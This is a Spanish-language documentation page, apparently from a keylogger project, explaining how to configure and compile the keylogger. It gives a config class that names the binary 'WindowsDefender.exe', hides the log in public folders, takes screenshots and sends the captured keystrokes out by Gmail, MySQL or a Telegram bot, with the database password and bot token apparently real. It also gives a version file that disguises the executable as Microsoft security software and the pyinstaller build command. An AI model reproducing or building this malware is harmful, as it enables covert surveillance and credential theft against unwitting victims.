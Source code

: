 [Volver al a la documentación](../README.md)

# Custom __[Solo para programadores intemedio de python]__

Proceso de Opciones avanzada del keylogger.

__NOTA:__ Si no sabe no toque.
````py
lass Config:
    def __init__(self):
        self.NAME_KEY = "WindowsDefender"+ ".exe"   # Nombre del Keylogger // Debe ser exactamente igual al Compilado *.exe
        self.NAME_REG = "Windows Defeder REG"                                   # Nombre del Keylogger en el registro
        self.PATH_HIDDEN_LOG = "C:\\Users\\Public\\Security\\Settings" + "\\"           # Ruta del Registro de teclas
        self.LOG_NAME = "reg" + "." + "k"
        self.PATH_HIDDEN_KEY = "C:\\Users\\Public\\Security\\Windows Defender" + "\\"  # Ruta donde se esconderá el KEYLOGGER
        self.PATH_KEY = self.PATH_HIDDEN_KEY + self.NAME_KEY         # <No cambiar>
        self.PATH_LOG = self.PATH_HIDDEN_LOG + self.LOG_NAME       # <No cambiar>
        self.SCREENSHOT = True                                  # Activar o desactivar Screenshot
        self.TIME_SCREENSHOT = 2                                # Tiempo de intervalo de ScreenShot
        self.DELAY  = 10                                                            # tiempo de retraso para evitar sobrecargos al iniciar
        self.TIME_SEND = 1 #[minutos]                                               # Tiempo de envió del registro
        self.MODE_SEND = 2      # 0 = Gmail
                           # 1 = DataBase                                           # Solo se puede usar una opción
                           # 2 = TelegramBot
    class DataBase:  # Clase de Base de datos
        def __init__(self):
            self.HOSTNAME = "bh1g5gnxzw2igrvui8hq-mysql.services.clever-cloud.com"  # HostName
            self.USERNAME = "udwlsyrbtldkznqo"                                      # Username
            self.PASSWORD = "OR2i2dfdgWek0UDiAv4f"                                  # Password
            self.DATABASE = "bh1g5gnxzw2igrvui8hq"                                  # DataBase Name
            self.PORT     = "3306"                                                  # Port
    class Gmail:
        def __init__(self):
            self.GMAIL_1 = "correo1@gmail.com"
            self.PASS_1  = "password1"
            self.GMAIL_2 = "correo2@gmail.com"
            self.PASS_2  = "password2"
            self.GMAIL_3 = "correo3@gmail.com"
            self.PASS_3  = "password3"
          # Solo un correo Recibirá el Registro de Teclas
            self.RECEIVERS = ["receivers1@yahoo.com"]
          # Correos que recibiran el Registro de teclas, pueden ser de 1 a muchos
          # self.RECEIVERS = ["receivers1@yahoo.com","receivers2@gmail.com","receivers3@hotmail.com"]
    class TelegramBot:
        def __init__(self):
            self.ID   = 831233303                                                     # ID Principal [Obligatorio]
            self.ID_2 = 000000000                                                     # ID secundario [Opcional]
            self.ID_3 = 000000000                                                     # ID Terciario  [Opcional]
            self.TOKEN = "1159435940:AAHKZLqDuuk4XBYHUx2GmQei0-RoRvis2v8"             # TOKEN de tu Bot [Obligatorio]
            # Personalize
            self.LEN_TEXT = 2#3600  #    [Longitud maxima por mensaje es de = 4000] # Solo se enviará el registro si sobrepasa la longitud especificada
````

# Proceso de conversión: `*.py a *.exe`
Se utilizará `pyinstaller`
1. En la carpeta principal encontrará dos archivos, uno llamado `icon.ico` y el otro `version.txt`, éstos 2 archivos son importantes para la conversión del `*.py a *.exe`.
    - `icon.ico` = El icono que tendrá el keylogger al ser convertido
    - `version.txt` = Información detallada del keyloger.
    
    Si el siguiente proceso se realiza con exito, el keylogger estará disfrazado así como las siguientes imagenes.
    

    ![Imagen1](https://i.imgur.com/MQAiVnJ.png)
    ![Imagen2](https://i.imgur.com/mTBByRy.png)

    ![Imagen1](https://i.imgur.com/wGTfC4T.png)
    ![Imagen2](https://i.imgur.com/Txt3QFS.png)





    Toda esa información puede ser modificada en el archivo de la plantilla `version.txt`
2. __Disfraz _[Información]_:__ El el siguiente archivo `version.txt`, puedes modificar la información del `*.exe` la cual se supone que de ser creible.
````r
VSVersionInfo(
  ffi=FixedFileInfo(
    filevers=(6, 1, 7601, 17514),
    prodvers=(6, 1, 7601, 17514),
    mask=0x3f,
    flags=0x0,
    OS=0x40004,
    fileType=0x1,
    subtype=0x0,
    date=(0, 0)
    ),
  kids=[
    StringFileInfo(
      [
      StringTable(
        u'040904B0',
        [StringStruct(u'CompanyName', u'Microsoft CorpoKeyloggerion'),
        StringStruct(u'FileDescription', u'Windows Security Health Host Key'),
        StringStruct(u'FileVersion', u'6.1.7601.17514 (win7sp1_rtm.101119-1850)'),
        StringStruct(u'InternalName', u'Windows Defender'),
        StringStruct(u'LegalCopyright', u'\xa9 Microsoft CorpoKeyloggerion. All rights reserved.'),
        StringStruct(u'OriginalFilename', u'SecurityHealthHostKey.exe'),
        StringStruct(u'ProductName', u'Microsoft\xae Windows\xae OpeKeyloggering System'),
        StringStruct(u'ProductVersion', u'6.1.7601.17514')])
      ]), 
    VarFileInfo([VarStruct(u'Translation', [1033, 1200])])
  ]
)
````




3. __Conversión final:__
Mediante Consola debe dirigirse a la carpeta principal.
Los requisitos es tener instalada la librería `pyinstaller`, porfavor mire un tutorial antes de hacer éste proceso, la linea de comando recomendada es la siguiente:


````bat
pyinstaller --clean   --distpath "EXE" -F --windowed --icon icon.ico --version-file version.txt "Tu nombre custom".py
````